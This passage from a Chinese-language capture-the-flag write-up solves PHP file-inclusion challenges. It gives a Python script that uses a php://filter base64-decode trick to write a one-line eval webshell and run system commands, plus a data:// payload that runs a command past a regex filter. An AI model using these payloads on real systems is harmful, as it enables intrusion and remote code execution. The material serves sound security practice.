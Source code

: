 `?file=php://filter/write=convert.base64-decode/resource=xlccccc.php`

此时可利用php伪协议对文件进行base64解码，而php的base64解码会丢掉不认识的字符

所以现在就剩下`phpdie`，众所周知，base64是**4字节转3字节**，所以补充两个字节，再加上base64处理后的一句话木马就成功写入了

脚本

```python
import requests

url = "http://bff2d363-27c8-4811-b6b5-a95b251dd05d.challenge.ctf.show/"
#经过两次url编码的php://filter/write=convert.base64-decode/resource=xl.php
get_data = r"%2570%2568%2570%253A%252F%252F%2566%2569%256C%2574%2565%2572%252F%2577%2572%2569%2574%2565%253D%2563%256F%256E%2576%2565%2572%2574%252E%2562%2561%2573%2565%2536%2534%252D%2564%2565%2563%256F%2564%2565%252F%2572%2565%2573%256F%2575%2572%2563%2565%253D%2578%256C%252E%2570%2568%2570"
get_url = url + "?file=" + get_data
data = {
    'content': 'nbPD9waHAgQGV2YWwoJF9QT1NUW3Bhc3NdKTs/Pg=='
}
res = requests.post(url=get_url, data=data)
shell_url = url + "xl.php"
test = requests.get(shell_url)
if(test.status_code == 200):
    print("[*]getshell成功")
    shell_data = {
        'pass': 'system("cat fl0g.php");'
    }
    result = requests.post(url=shell_url, data=shell_data)
    print(result.text)
```

### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

直接利用**data伪协议**就好了

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTsgPz4
```

### web116
